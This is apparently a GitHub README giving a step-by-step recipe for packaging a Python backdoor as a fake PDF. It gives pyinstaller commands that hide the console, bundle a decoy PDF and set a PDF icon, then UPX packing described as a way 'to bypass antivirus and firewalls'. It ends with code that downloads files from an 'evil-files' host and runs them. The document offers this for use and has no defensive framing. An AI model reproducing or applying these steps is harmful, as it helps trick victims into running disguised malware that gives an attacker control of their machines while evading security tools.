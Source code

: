 # FileCorruption-Social-Engineer-
From python file, to pdf or any file 

Taking "[Backdoor]Target" as main example, we're gonna explain how to convert .py files to executables or other files.

(Windows)

# pyinstaller.exe backdoor.py --onefile --noconsole -> executable file

(Linux)

1 - # wine pyinstaller.exe backdoor.py --onefile --noconsole -> executable file

2 - # wine pyinstaller.exe --add-data "/root/Downloads/example.pdf;." --onefile --noconsole backdoor.py

This one also requieres python modification, by adding:

	try:
   	   file_name = sys._MEIPASS + "example.pdf" 
	except Exception:
   	   file_name = os.path.abspath(".") + "example.pdf"

3 - # wine pyinstaller.exe --add-data "/root/Downlopads/example.pdf;." --onefile --noconsole --icon /root/Downloads/pdf.ico backdoor.py

4 - (Packaging the files to bypass antivirus and firewalls)
    cd /opt/upx
    ./upx /root/Desktop/Git\ Projects/Backdoor/\[Backdoor\]Target/AllInOne/dist/backdoor.exe -o compressed_backdoor.exe


Another example we can go through is "download_execute.py", where we modify the file to execute another download instead of reporting

Python modification:

	# Popen to continue the execution
	download("http://192.168.1.113/evil-files/sock.jpg")
	result = subprocess.Popen("sock.jpg", shell=True)
	
	# Call will pause and won't do anything till the hacker closes the bd
	download("htpp://192.168.1.113/evil-files/backdoor.exe")
	result = subprocess.call("backdoor.exe", shell=True)

	os.remove("sock.jpg")
	os.remove("backdoor.exe")
